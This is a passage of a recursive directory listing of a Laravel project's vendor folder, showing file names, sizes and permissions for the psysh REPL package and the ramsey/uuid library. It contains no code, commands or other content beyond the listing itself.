-rw-r--r--  1 www-data www-data 2.9K Mar 19  2017 FunctionReturnInWriteContextPass.php
-rw-r--r--  1 www-data www-data  905 Mar 19  2017 ImplicitReturnPass.php
-rw-r--r--  1 www-data www-data 1.3K Mar 19  2017 InstanceOfPass.php
-rw-r--r--  1 www-data www-data  914 Mar 19  2017 LeavePsyshAlonePass.php
-rw-r--r--  1 www-data www-data 1.6K Mar 19  2017 LegacyEmptyPass.php
-rw-r--r--  1 www-data www-data 1.1K Mar 19  2017 MagicConstantsPass.php
-rw-r--r--  1 www-data www-data 1.9K Mar 19  2017 NamespaceAwarePass.php
-rw-r--r--  1 www-data www-data 2.2K Mar 19  2017 NamespacePass.php
-rw-r--r--  1 www-data www-data 2.4K Mar 19  2017 PassableByReferencePass.php
-rw-r--r--  1 www-data www-data 2.7K Mar 19  2017 StaticConstructorPass.php
-rw-r--r--  1 www-data www-data 2.3K Mar 19  2017 StrictTypesPass.php
-rw-r--r--  1 www-data www-data 4.0K Mar 19  2017 UseStatementPass.php
-rw-r--r--  1 www-data www-data  12K Mar 19  2017 ValidClassNamePass.php
-rw-r--r--  1 www-data www-data 3.0K Mar 19  2017 ValidConstantPass.php
-rw-r--r--  1 www-data www-data 3.3K Mar 19  2017 ValidFunctionNamePass.php

/var/www/laravel/vendor/psy/psysh/src/Psy/Command:
total 116K
drwxr-xr-x  3 www-data www-data 4.0K Mar 19  2017 .
drwxr-xr-x 14 www-data www-data 4.0K Mar 19  2017 ..
-rw-r--r--  1 www-data www-data 2.2K Mar 19  2017 BufferCommand.php
-rw-r--r--  1 www-data www-data 1.1K Mar 19  2017 ClearCommand.php
-rw-r--r--  1 www-data www-data 7.5K Mar 19  2017 Command.php
-rw-r--r--  1 www-data www-data 3.5K Mar 19  2017 DocCommand.php
-rw-r--r--  1 www-data www-data 3.0K Mar 19  2017 DumpCommand.php
-rw-r--r--  1 www-data www-data 1.1K Mar 19  2017 ExitCommand.php
-rw-r--r--  1 www-data www-data 2.8K Mar 19  2017 HelpCommand.php
-rw-r--r--  1 www-data www-data 8.6K Mar 19  2017 HistoryCommand.php
drwxr-xr-x  2 www-data www-data 4.0K Mar 19  2017 ListCommand
-rw-r--r--  1 www-data www-data  11K Mar 19  2017 ListCommand.php
-rw-r--r--  1 www-data www-data 4.6K Mar 19  2017 ParseCommand.php
-rw-r--r--  1 www-data www-data  939 Mar 19  2017 PsyVersionCommand.php
-rw-r--r--  1 www-data www-data 8.8K Mar 19  2017 ReflectingCommand.php
-rw-r--r--  1 www-data www-data 2.2K Mar 19  2017 ShowCommand.php
-rw-r--r--  1 www-data www-data 2.2K Mar 19  2017 ThrowUpCommand.php
-rw-r--r--  1 www-data www-data 4.2K Mar 19  2017 TraceCommand.php
-rw-r--r--  1 www-data www-data 3.4K Mar 19  2017 WhereamiCommand.php
-rw-r--r--  1 www-data www-data 3.0K Mar 19  2017 WtfCommand.php

/var/www/laravel/vendor/psy/psysh/src/Psy/Command/ListCommand:
total 56K
drwxr-xr-x 2 www-data www-data 4.0K Mar 19  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Mar 19  2017 ..
-rw-r--r-- 1 www-data www-data 3.3K Mar 19  2017 ClassConstantEnumerator.php
-rw-r--r-- 1 www-data www-data 1.8K Mar 19  2017 ClassEnumerator.php
-rw-r--r-- 1 www-data www-data 2.5K Mar 19  2017 ConstantEnumerator.php
-rw-r--r-- 1 www-data www-data 3.9K Mar 19  2017 Enumerator.php
-rw-r--r-- 1 www-data www-data 2.7K Mar 19  2017 FunctionEnumerator.php
-rw-r--r-- 1 www-data www-data 2.0K Mar 19  2017 GlobalVariableEnumerator.php
-rw-r--r-- 1 www-data www-data 1.9K Mar 19  2017 InterfaceEnumerator.php
-rw-r--r-- 1 www-data www-data 3.7K Mar 19  2017 MethodEnumerator.php
-rw-r--r-- 1 www-data www-data 4.5K Mar 19  2017 PropertyEnumerator.php
-rw-r--r-- 1 www-data www-data 2.0K Mar 19  2017 TraitEnumerator.php
-rw-r--r-- 1 www-data www-data 3.6K Mar 19  2017 VariableEnumerator.php

/var/www/laravel/vendor/psy/psysh/src/Psy/Exception:
total 44K
drwxr-xr-x  2 www-data www-data 4.0K Mar 19  2017 .
drwxr-xr-x 14 www-data www-data 4.0K Mar 19  2017 ..
-rw-r--r--  1 www-data www-data  839 Mar 19  2017 BreakException.php
-rw-r--r--  1 www-data www-data  382 Mar 19  2017 DeprecatedException.php
-rw-r--r--  1 www-data www-data 2.7K Mar 19  2017 ErrorException.php
-rw-r--r--  1 www-data www-data  497 Mar 19  2017 Exception.php
-rw-r--r--  1 www-data www-data 1.3K Mar 19  2017 FatalErrorException.php
-rw-r--r--  1 www-data www-data  973 Mar 19  2017 ParseErrorException.php
-rw-r--r--  1 www-data www-data  963 Mar 19  2017 RuntimeException.php
-rw-r--r--  1 www-data www-data  891 Mar 19  2017 ThrowUpException.php
-rw-r--r--  1 www-data www-data 1.3K Mar 19  2017 TypeErrorException.php

/var/www/laravel/vendor/psy/psysh/src/Psy/ExecutionLoop:
total 24K
drwxr-xr-x  2 www-data www-data 4.0K Mar 19  2017 .
drwxr-xr-x 14 www-data www-data 4.0K Mar 19  2017 ..
-rw-r--r--  1 www-data www-data 5.0K Mar 19  2017 ForkingLoop.php
-rw-r--r--  1 www-data www-data 5.6K Mar 19  2017 Loop.php

/var/www/laravel/vendor/psy/psysh/src/Psy/Formatter:
total 32K
drwxr-xr-x  2 www-data www-data 4.0K Mar 19  2017 .
drwxr-xr-x 14 www-data www-data 4.0K Mar 19  2017 ..
-rw-r--r--  1 www-data www-data 2.2K Mar 19  2017 CodeFormatter.php
-rw-r--r--  1 www-data www-data 4.5K Mar 19  2017 DocblockFormatter.php
-rw-r--r--  1 www-data www-data  436 Mar 19  2017 Formatter.php
-rw-r--r--  1 www-data www-data 8.0K Mar 19  2017 SignatureFormatter.php

/var/www/laravel/vendor/psy/psysh/src/Psy/Output:
total 28K
drwxr-xr-x  2 www-data www-data 4.0K Mar 19  2017 .
drwxr-xr-x 14 www-data www-data 4.0K Mar 19  2017 ..
-rw-r--r--  1 www-data www-data  566 Mar 19  2017 OutputPager.php
-rw-r--r--  1 www-data www-data  809 Mar 19  2017 PassthruPager.php
-rw-r--r--  1 www-data www-data 2.8K Mar 19  2017 ProcOutputPager.php
-rw-r--r--  1 www-data www-data 6.8K Mar 19  2017 ShellOutput.php

/var/www/laravel/vendor/psy/psysh/src/Psy/Readline:
total 28K
drwxr-xr-x  2 www-data www-data 4.0K Mar 19  2017 .
drwxr-xr-x 14 www-data www-data 4.0K Mar 19  2017 ..
-rw-r--r--  1 www-data www-data 4.0K Mar 19  2017 GNUReadline.php
-rw-r--r--  1 www-data www-data 1.8K Mar 19  2017 HoaConsole.php
-rw-r--r--  1 www-data www-data 2.3K Mar 19  2017 Libedit.php
-rw-r--r--  1 www-data www-data 1.5K Mar 19  2017 Readline.php
-rw-r--r--  1 www-data www-data 2.8K Mar 19  2017 Transient.php

/var/www/laravel/vendor/psy/psysh/src/Psy/Reflection:
total 20K
drwxr-xr-x  2 www-data www-data 4.0K Mar 19  2017 .
drwxr-xr-x 14 www-data www-data 4.0K Mar 19  2017 ..
-rw-r--r--  1 www-data www-data 3.3K Mar 19  2017 ReflectionConstant.php
-rw-r--r--  1 www-data www-data 3.3K Mar 19  2017 ReflectionLanguageConstruct.php
-rw-r--r--  1 www-data www-data 2.2K Mar 19  2017 ReflectionLanguageConstructParameter.php

/var/www/laravel/vendor/psy/psysh/src/Psy/TabCompletion:
total 16K
drwxr-xr-x  3 www-data www-data 4.0K Mar 19  2017 .
drwxr-xr-x 14 www-data www-data 4.0K Mar 19  2017 ..
-rw-r--r--  1 www-data www-data 2.5K Mar 19  2017 AutoCompleter.php
drwxr-xr-x  2 www-data www-data 4.0K Mar 19  2017 Matcher

/var/www/laravel/vendor/psy/psysh/src/Psy/TabCompletion/Matcher:
total 68K
drwxr-xr-x 2 www-data www-data 4.0K Mar 19  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Mar 19  2017 ..
-rw-r--r-- 1 www-data www-data 1.3K Mar 19  2017 AbstractContextAwareMatcher.php
-rw-r--r-- 1 www-data www-data 4.7K Mar 19  2017 AbstractMatcher.php
-rw-r--r-- 1 www-data www-data 2.0K Mar 19  2017 ClassAttributesMatcher.php
-rw-r--r-- 1 www-data www-data 1.9K Mar 19  2017 ClassMethodsMatcher.php
-rw-r--r-- 1 www-data www-data 2.4K Mar 19  2017 ClassNamesMatcher.php
-rw-r--r-- 1 www-data www-data 2.5K Mar 19  2017 CommandsMatcher.php
-rw-r--r-- 1 www-data www-data 1.4K Mar 19  2017 ConstantsMatcher.php
-rw-r--r-- 1 www-data www-data 1.4K Mar 19  2017 FunctionsMatcher.php
-rw-r--r-- 1 www-data www-data 2.1K Mar 19  2017 KeywordsMatcher.php
-rw-r--r-- 1 www-data www-data 1.8K Mar 19  2017 MongoClientMatcher.php
-rw-r--r-- 1 www-data www-data 1.7K Mar 19  2017 MongoDatabaseMatcher.php
-rw-r--r-- 1 www-data www-data 1.9K Mar 19  2017 ObjectAttributesMatcher.php
-rw-r--r-- 1 www-data www-data 1.8K Mar 19  2017 ObjectMethodsMatcher.php
-rw-r--r-- 1 www-data www-data 1.3K Mar 19  2017 VariablesMatcher.php

/var/www/laravel/vendor/psy/psysh/src/Psy/Util:
total 28K
drwxr-xr-x  2 www-data www-data 4.0K Mar 19  2017 .
drwxr-xr-x 14 www-data www-data 4.0K Mar 19  2017 ..
-rw-r--r--  1 www-data www-data 6.2K Mar 19  2017 Docblock.php
-rw-r--r--  1 www-data www-data  710 Mar 19  2017 Json.php
-rw-r--r--  1 www-data www-data 3.2K Mar 19  2017 Mirror.php
-rw-r--r--  1 www-data www-data 2.9K Mar 19  2017 Str.php

/var/www/laravel/vendor/psy/psysh/src/Psy/VarDumper:
total 24K
drwxr-xr-x  2 www-data www-data 4.0K Mar 19  2017 .
drwxr-xr-x 14 www-data www-data 4.0K Mar 19  2017 ..
-rw-r--r--  1 www-data www-data  882 Mar 19  2017 Cloner.php
-rw-r--r--  1 www-data www-data 2.8K Mar 19  2017 Dumper.php
-rw-r--r--  1 www-data www-data 3.3K Mar 19  2017 Presenter.php
-rw-r--r--  1 www-data www-data  527 Mar 19  2017 PresenterAware.php

/var/www/laravel/vendor/psy/psysh/src/Psy/VersionUpdater:
total 24K
drwxr-xr-x  2 www-data www-data 4.0K Mar 19  2017 .
drwxr-xr-x 14 www-data www-data 4.0K Mar 19  2017 ..
-rw-r--r--  1 www-data www-data  552 Mar 19  2017 Checker.php
-rw-r--r--  1 www-data www-data 1.6K Mar 19  2017 GitHubChecker.php
-rw-r--r--  1 www-data www-data 1.8K Mar 19  2017 IntervalChecker.php
-rw-r--r--  1 www-data www-data  605 Mar 19  2017 NoopChecker.php

/var/www/laravel/vendor/psy/psysh/test:
total 20K
drwxr-xr-x 5 www-data www-data 4.0K Mar 19  2017 .
drwxr-xr-x 6 www-data www-data 4.0K Apr  9  2017 ..
drwxr-xr-x 3 www-data www-data 4.0K Mar 19  2017 Psy
drwxr-xr-x 6 www-data www-data 4.0K Mar 19  2017 fixtures
drwxr-xr-x 2 www-data www-data 4.0K Mar 19  2017 tools

/var/www/laravel/vendor/psy/psysh/test/Psy:
total 12K
drwxr-xr-x  3 www-data www-data 4.0K Mar 19  2017 .
drwxr-xr-x  5 www-data www-data 4.0K Mar 19  2017 ..
drwxr-xr-x 10 www-data www-data 4.0K Mar 19  2017 Test

/var/www/laravel/vendor/psy/psysh/test/Psy/Test:
total 76K
drwxr-xr-x 10 www-data www-data 4.0K Mar 19  2017 .
drwxr-xr-x  3 www-data www-data 4.0K Mar 19  2017 ..
-rw-r--r--  1 www-data www-data  486 Mar 19  2017 AutoloaderTest.php
drwxr-xr-x  3 www-data www-data 4.0K Mar 19  2017 CodeCleaner
-rw-r--r--  1 www-data www-data 3.4K Mar 19  2017 CodeCleanerTest.php
-rw-r--r--  1 www-data www-data 8.4K Mar 19  2017 ConfigurationTest.php
-rw-r--r--  1 www-data www-data 1.5K Mar 19  2017 ConsoleColorFactoryTest.php
drwxr-xr-x  2 www-data www-data 4.0K Mar 19  2017 Exception
drwxr-xr-x  2 www-data www-data 4.0K Mar 19  2017 Formatter
drwxr-xr-x  2 www-data www-data 4.0K Mar 19  2017 Readline
drwxr-xr-x  2 www-data www-data 4.0K Mar 19  2017 Reflection
-rw-r--r--  1 www-data www-data  11K Mar 19  2017 ShellTest.php
drwxr-xr-x  2 www-data www-data 4.0K Mar 19  2017 TabCompletion
drwxr-xr-x  2 www-data www-data 4.0K Mar 19  2017 Util
drwxr-xr-x  2 www-data www-data 4.0K Mar 19  2017 VersionUpdater

/var/www/laravel/vendor/psy/psysh/test/Psy/Test/CodeCleaner:
total 108K
drwxr-xr-x  3 www-data www-data 4.0K Mar 19  2017 .
drwxr-xr-x 10 www-data www-data 4.0K Mar 19  2017 ..
-rw-r--r--  1 www-data www-data 1.5K Mar 19  2017 AbstractClassPassTest.php
-rw-r--r--  1 www-data www-data 1.5K Mar 19  2017 AssignThisVariablePassTest.php
-rw-r--r--  1 www-data www-data 1.8K Mar 19  2017 CallTimePassByReferencePassTest.php
-rw-r--r--  1 www-data www-data 3.0K Mar 19  2017 CalledClassPassTest.php
-rw-r--r--  1 www-data www-data 2.5K Mar 19  2017 CodeCleanerTestCase.php
-rw-r--r--  1 www-data www-data 1.3K Mar 19  2017 ExitPassTest.php
-rw-r--r--  1 www-data www-data 1.8K Mar 19  2017 FinalClassPassTest.php
drwxr-xr-x  2 www-data www-data 4.0K Mar 19  2017 Fixtures
-rw-r--r--  1 www-data www-data 2.3K Mar 19  2017 FunctionReturnInWriteContextPassTest.php
-rw-r--r--  1 www-data www-data  977 Mar 19  2017 ImplicitReturnPassTest.php
-rw-r--r--  1 www-data www-data 2.0K Mar 19  2017 InstanceOfPassTest.php
-rw-r--r--  1 www-data www-data 1.6K Mar 19  2017 LeavePsyshAlonePassTest.php
-rw-r--r--  1 www-data www-data 1.8K Mar 19  2017 LegacyEmptyPassTest.php
-rw-r--r--  1 www-data www-data  810 Mar 19  2017 MagicConstantsPassTest.php
-rw-r--r--  1 www-data www-data 1.3K Mar 19  2017 NamespacePassTest.php
-rw-r--r--  1 www-data www-data 1.6K Mar 19  2017 PassableByReferencePassTest.php
-rw-r--r--  1 www-data www-data 2.5K Mar 19  2017 StaticConstructorPassTest.php
-rw-r--r--  1 www-data www-data 1.4K Mar 19  2017 StrictTypesPassTest.php
-rw-r--r--  1 www-data www-data 1.3K Mar 19  2017 UseStatementPassTest.php
-rw-r--r--  1 www-data www-data  12K Mar 19  2017 ValidClassNamePassTest.php
-rw-r--r--  1 www-data www-data 1.6K Mar 19  2017 ValidConstantPassTest.php
-rw-r--r--  1 www-data www-data 5.3K Mar 19  2017 ValidFunctionNamePassTest.php

/var/www/laravel/vendor/psy/psysh/test/Psy/Test/CodeCleaner/Fixtures:
total 16K
drwxr-xr-x 2 www-data www-data 4.0K Mar 19  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Mar 19  2017 ..
-rw-r--r-- 1 www-data www-data  376 Mar 19  2017 ClassWithCallStatic.php
-rw-r--r-- 1 www-data www-data  368 Mar 19  2017 ClassWithStatic.php

/var/www/laravel/vendor/psy/psysh/test/Psy/Test/Exception:
total 28K
drwxr-xr-x  2 www-data www-data 4.0K Mar 19  2017 .
drwxr-xr-x 10 www-data www-data 4.0K Mar 19  2017 ..
-rw-r--r--  1 www-data www-data  768 Mar 19  2017 BreakExceptionTest.php
-rw-r--r--  1 www-data www-data 3.2K Mar 19  2017 ErrorExceptionTest.php
-rw-r--r--  1 www-data www-data 1.3K Mar 19  2017 FatalErrorExceptionTest.php
-rw-r--r--  1 www-data www-data 1.2K Mar 19  2017 ParseErrorExceptionTest.php
-rw-r--r--  1 www-data www-data  778 Mar 19  2017 RuntimeExceptionTest.php

/var/www/laravel/vendor/psy/psysh/test/Psy/Test/Formatter:
total 20K
drwxr-xr-x  2 www-data www-data 4.0K Mar 19  2017 .
drwxr-xr-x 10 www-data www-data 4.0K Mar 19  2017 ..
-rw-r--r--  1 www-data www-data 1.5K Mar 19  2017 CodeFormatterTest.php
-rw-r--r--  1 www-data www-data 1.6K Mar 19  2017 DocblockFormatterTest.php
-rw-r--r--  1 www-data www-data 2.4K Mar 19  2017 SignatureFormatterTest.php

/var/www/laravel/vendor/psy/psysh/test/Psy/Test/Readline:
total 24K
drwxr-xr-x  2 www-data www-data 4.0K Mar 19  2017 .
drwxr-xr-x 10 www-data www-data 4.0K Mar 19  2017 ..
-rw-r--r--  1 www-data www-data 2.6K Mar 19  2017 GNUReadlineTest.php
-rw-r--r--  1 www-data www-data  905 Mar 19  2017 HoaConsoleTest.php
-rw-r--r--  1 www-data www-data 4.0K Mar 19  2017 LibeditTest.php
-rw-r--r--  1 www-data www-data 2.5K Mar 19  2017 TransientTest.php

/var/www/laravel/vendor/psy/psysh/test/Psy/Test/Reflection:
total 12K
drwxr-xr-x  2 www-data www-data 4.0K Mar 19  2017 .
drwxr-xr-x 10 www-data www-data 4.0K Mar 19  2017 ..
-rw-r--r--  1 www-data www-data 1.6K Mar 19  2017 ReflectionConstantTest.php

/var/www/laravel/vendor/psy/psysh/test/Psy/Test/TabCompletion:
total 20K
drwxr-xr-x  2 www-data www-data 4.0K Mar 19  2017 .
drwxr-xr-x 10 www-data www-data 4.0K Mar 19  2017 ..
-rw-r--r--  1 www-data www-data 5.1K Mar 19  2017 AutoCompleterTest.php
-rw-r--r--  1 www-data www-data  465 Mar 19  2017 StaticSample.php

/var/www/laravel/vendor/psy/psysh/test/Psy/Test/Util:
total 20K
drwxr-xr-x  2 www-data www-data 4.0K Mar 19  2017 .
drwxr-xr-x 10 www-data www-data 4.0K Mar 19  2017 ..
-rw-r--r--  1 www-data www-data 2.9K Mar 19  2017 DocblockTest.php
-rw-r--r--  1 www-data www-data 2.0K Mar 19  2017 MirrorTest.php
-rw-r--r--  1 www-data www-data  722 Mar 19  2017 StrTest.php

/var/www/laravel/vendor/psy/psysh/test/Psy/Test/VersionUpdater:
total 12K
drwxr-xr-x  2 www-data www-data 4.0K Mar 19  2017 .
drwxr-xr-x 10 www-data www-data 4.0K Mar 19  2017 ..
-rw-r--r--  1 www-data www-data 2.4K Mar 19  2017 GitHubCheckerTest.php

/var/www/laravel/vendor/psy/psysh/test/fixtures:
total 80K
drwxr-xr-x 6 www-data www-data 4.0K Mar 19  2017 .
drwxr-xr-x 5 www-data www-data 4.0K Mar 19  2017 ..
-rw-r--r-- 1 www-data www-data  422 Mar 19  2017 config.php
drwxr-xr-x 4 www-data www-data 4.0K Mar 19  2017 default
-rw-r--r-- 1 www-data www-data  257 Mar 19  2017 empty.php
drwxr-xr-x 3 www-data www-data 4.0K Mar 19  2017 legacy
drwxr-xr-x 3 www-data www-data 4.0K Mar 19  2017 mixed
drwxr-xr-x 2 www-data www-data 4.0K Mar 19  2017 project
-rw-r--r-- 1 www-data www-data  45K Mar 19  2017 unvis_fixtures.json

/var/www/laravel/vendor/psy/psysh/test/fixtures/default:
total 16K
drwxr-xr-x 4 www-data www-data 4.0K Mar 19  2017 .
drwxr-xr-x 6 www-data www-data 4.0K Mar 19  2017 ..
drwxr-xr-x 3 www-data www-data 4.0K Mar 19  2017 .config
drwxr-xr-x 3 www-data www-data 4.0K Mar 19  2017 .local

/var/www/laravel/vendor/psy/psysh/test/fixtures/default/.config:
total 12K
drwxr-xr-x 3 www-data www-data 4.0K Mar 19  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Mar 19  2017 ..
drwxr-xr-x 2 www-data www-data 4.0K Mar 19  2017 psysh

/var/www/laravel/vendor/psy/psysh/test/fixtures/default/.config/psysh:
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Mar 19  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Mar 19  2017 ..
-rw-r--r-- 1 www-data www-data    6 Mar 19  2017 config.php
-rw-r--r-- 1 www-data www-data    0 Mar 19  2017 psysh_history

/var/www/laravel/vendor/psy/psysh/test/fixtures/default/.local:
total 12K
drwxr-xr-x 3 www-data www-data 4.0K Mar 19  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Mar 19  2017 ..
drwxr-xr-x 3 www-data www-data 4.0K Mar 19  2017 share

/var/www/laravel/vendor/psy/psysh/test/fixtures/default/.local/share:
total 12K
drwxr-xr-x 3 www-data www-data 4.0K Mar 19  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Mar 19  2017 ..
drwxr-xr-x 2 www-data www-data 4.0K Mar 19  2017 psysh

/var/www/laravel/vendor/psy/psysh/test/fixtures/default/.local/share/psysh:
total 8.0K
drwxr-xr-x 2 www-data www-data 4.0K Mar 19  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Mar 19  2017 ..
-rw-r--r-- 1 www-data www-data    0 Mar 19  2017 php_manual.sqlite

/var/www/laravel/vendor/psy/psysh/test/fixtures/legacy:
total 12K
drwxr-xr-x 3 www-data www-data 4.0K Mar 19  2017 .
drwxr-xr-x 6 www-data www-data 4.0K Mar 19  2017 ..
drwxr-xr-x 2 www-data www-data 4.0K Mar 19  2017 .psysh

/var/www/laravel/vendor/psy/psysh/test/fixtures/legacy/.psysh:
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Mar 19  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Mar 19  2017 ..
-rw-r--r-- 1 www-data www-data    0 Mar 19  2017 history
-rw-r--r-- 1 www-data www-data    0 Mar 19  2017 php_manual.sqlite
-rw-r--r-- 1 www-data www-data    6 Mar 19  2017 rc.php

/var/www/laravel/vendor/psy/psysh/test/fixtures/mixed:
total 12K
drwxr-xr-x 3 www-data www-data 4.0K Mar 19  2017 .
drwxr-xr-x 6 www-data www-data 4.0K Mar 19  2017 ..
drwxr-xr-x 2 www-data www-data 4.0K Mar 19  2017 .psysh

/var/www/laravel/vendor/psy/psysh/test/fixtures/mixed/.psysh:
total 16K
drwxr-xr-x 2 www-data www-data 4.0K Mar 19  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Mar 19  2017 ..
-rw-r--r-- 1 www-data www-data    6 Mar 19  2017 config.php
-rw-r--r-- 1 www-data www-data    0 Mar 19  2017 psysh_history
-rw-r--r-- 1 www-data www-data    6 Mar 19  2017 rc.php

/var/www/laravel/vendor/psy/psysh/test/fixtures/project:
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Mar 19  2017 .
drwxr-xr-x 6 www-data www-data 4.0K Mar 19  2017 ..
-rw-r--r-- 1 www-data www-data  286 Mar 19  2017 .psysh.php

/var/www/laravel/vendor/psy/psysh/test/tools:
total 16K
drwxr-xr-x 2 www-data www-data 4.0K Mar 19  2017 .
drwxr-xr-x 5 www-data www-data 4.0K Mar 19  2017 ..
-rwxr-xr-x 1 www-data www-data 3.1K Mar 19  2017 gen_unvis_fixtures.py
-rwxr-xr-x 1 www-data www-data 3.4K Mar 19  2017 vis.py

/var/www/laravel/vendor/ramsey:
total 12K
drwxr-xr-x  3 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 31 www-data www-data 4.0K Apr  9  2017 ..
drwxr-xr-x  3 www-data www-data 4.0K Apr  9  2017 uuid

/var/www/laravel/vendor/ramsey/uuid:
total 56K
drwxr-xr-x 3 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data  13K Mar 26  2017 CHANGELOG.md
-rw-r--r-- 1 www-data www-data 3.2K Mar 26  2017 CODE_OF_CONDUCT.md
-rw-r--r-- 1 www-data www-data 4.3K Mar 26  2017 CONTRIBUTING.md
-rw-r--r-- 1 www-data www-data 1.1K Mar 26  2017 LICENSE
-rw-r--r-- 1 www-data www-data 7.5K Mar 26  2017 README.md
-rw-r--r-- 1 www-data www-data 2.8K Mar 26  2017 composer.json
drwxr-xr-x 8 www-data www-data 4.0K Mar 26  2017 src

/var/www/laravel/vendor/ramsey/uuid/src:
total 100K
drwxr-xr-x 8 www-data www-data 4.0K Mar 26  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data 1.1K Mar 26  2017 BinaryUtils.php
drwxr-xr-x 2 www-data www-data 4.0K Mar 26  2017 Builder
drwxr-xr-x 2 www-data www-data 4.0K Mar 26  2017 Codec
drwxr-xr-x 4 www-data www-data 4.0K Mar 26  2017 Converter
-rw-r--r-- 1 www-data www-data 3.6K Mar 26  2017 DegradedUuid.php
drwxr-xr-x 2 www-data www-data 4.0K Mar 26  2017 Exception
-rw-r--r-- 1 www-data www-data 9.0K Mar 26  2017 FeatureSet.php
drwxr-xr-x 2 www-data www-data 4.0K Mar 26  2017 Generator
drwxr-xr-x 4 www-data www-data 4.0K Mar 26  2017 Provider
-rw-r--r-- 1 www-data www-data  21K Mar 26  2017 Uuid.php
-rw-r--r-- 1 www-data www-data 8.0K Mar 26  2017 UuidFactory.php
-rw-r--r-- 1 www-data www-data 2.9K Mar 26  2017 UuidFactoryInterface.php
-rw-r--r-- 1 www-data www-data 9.0K Mar 26  2017 UuidInterface.php

/var/www/laravel/vendor/ramsey/uuid/src/Builder:
total 20K
drwxr-xr-x 2 www-data www-data 4.0K Mar 26  2017 .
drwxr-xr-x 8 www-data www-data 4.0K Mar 26  2017 ..
-rw-r--r-- 1 www-data www-data 1.6K Mar 26  2017 DefaultUuidBuilder.php
-rw-r--r-- 1 www-data www-data 1.6K Mar 26  2017 DegradedUuidBuilder.php
-rw-r--r-- 1 www-data www-data 1.1K Mar 26  2017 UuidBuilderInterface.php

/var/www/laravel/vendor/ramsey/uuid/src/Codec:
total 36K
drwxr-xr-x 2 www-data www-data 4.0K Mar 26  2017 .
drwxr-xr-x 8 www-data www-data 4.0K Mar 26  2017 ..
-rw-r--r-- 1 www-data www-data 1.5K Mar 26  2017 CodecInterface.php
-rw-r--r-- 1 www-data www-data 2.9K Mar 26  2017 GuidStringCodec.php
-rw-r--r-- 1 www-data www-data 2.1K Mar 26  2017 OrderedTimeCodec.php
-rw-r--r-- 1 www-data www-data 4.7K Mar 26  2017 StringCodec.php
-rw-r--r-- 1 www-data www-data 3.1K Mar 26  2017 TimestampFirstCombCodec.php
-rw-r--r-- 1 www-data www-data  702 Mar 26  2017 TimestampLastCombCodec.php

/var/www/laravel/vendor/ramsey/uuid/src/Converter:
total 24K
drwxr-xr-x 4 www-data www-data 4.0K Mar 26  2017 .
drwxr-xr-x 8 www-data www-data 4.0K Mar 26  2017 ..
drwxr-xr-x 2 www-data www-data 4.0K Mar 26  2017 Number
-rw-r--r-- 1 www-data www-data 1.5K Mar 26  2017 NumberConverterInterface.php
drwxr-xr-x 2 www-data www-data 4.0K Mar 26  2017 Time
-rw-r--r-- 1 www-data www-data 1.2K Mar 26  2017 TimeConverterInterface.php

/var/www/laravel/vendor/ramsey/uuid/src/Converter/Number:
total 16K
drwxr-xr-x 2 www-data www-data 4.0K Mar 26  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Mar 26  2017 ..
-rw-r--r-- 1 www-data www-data 1.7K Mar 26  2017 BigNumberConverter.php
-rw-r--r-- 1 www-data www-data 2.0K Mar 26  2017 DegradedNumberConverter.php

/var/www/laravel/vendor/ramsey/uuid/src/Converter/Time:
total 20K
drwxr-xr-x 2 www-data www-data 4.0K Mar 26  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Mar 26  2017 ..
-rw-r--r-- 1 www-data www-data 1.8K Mar 26  2017 BigNumberTimeConverter.php
-rw-r--r-- 1 www-data www-data 1.4K Mar 26  2017 DegradedTimeConverter.php
-rw-r--r-- 1 www-data www-data 1.8K Mar 26  2017 PhpTimeConverter.php

/var/www/laravel/vendor/ramsey/uuid/src/Exception:
total 20K
drwxr-xr-x 2 www-data www-data 4.0K Mar 26  2017 .
drwxr-xr-x 8 www-data www-data 4.0K Mar 26  2017 ..
-rw-r--r-- 1 www-data www-data  657 Mar 26  2017 InvalidUuidStringException.php
-rw-r--r-- 1 www-data www-data  692 Mar 26  2017 UnsatisfiedDependencyException.php
-rw-r--r-- 1 www-data www-data  659 Mar 26  2017 UnsupportedOperationException.php

/var/www/laravel/vendor/ramsey/uuid/src/Generator:
total 64K
drwxr-xr-x 2 www-data www-data 4.0K Mar 26  2017 .
drwxr-xr-x 8 www-data www-data 4.0K Mar 26  2017 ..
-rw-r--r-- 1 www-data www-data 2.6K Mar 26  2017 CombGenerator.php
-rw-r--r-- 1 www-data www-data 4.3K Mar 26  2017 DefaultTimeGenerator.php
-rw-r--r-- 1 www-data www-data 1.2K Mar 26  2017 MtRandGenerator.php
-rw-r--r-- 1 www-data www-data 1.2K Mar 26  2017 OpenSslGenerator.php
-rw-r--r-- 1 www-data www-data 1.1K Mar 26  2017 PeclUuidRandomGenerator.php
-rw-r--r-- 1 www-data www-data 1.2K Mar 26  2017 PeclUuidTimeGenerator.php
-rw-r--r-- 1 www-data www-data 1.2K Mar 26  2017 RandomBytesGenerator.php
-rw-r--r-- 1 www-data www-data  866 Mar 26  2017 RandomGeneratorFactory.php
-rw-r--r-- 1 www-data www-data  915 Mar 26  2017 RandomGeneratorInterface.php
-rw-r--r-- 1 www-data www-data 1.8K Mar 26  2017 RandomLibAdapter.php
-rw-r--r-- 1 www-data www-data 1.2K Mar 26  2017 SodiumRandomGenerator.php
-rw-r--r-- 1 www-data www-data 1.9K Mar 26  2017 TimeGeneratorFactory.php
-rw-r--r-- 1 www-data www-data 1.3K Mar 26  2017 TimeGeneratorInterface.php

/var/www/laravel/vendor/ramsey/uuid/src/Provider:
total 24K
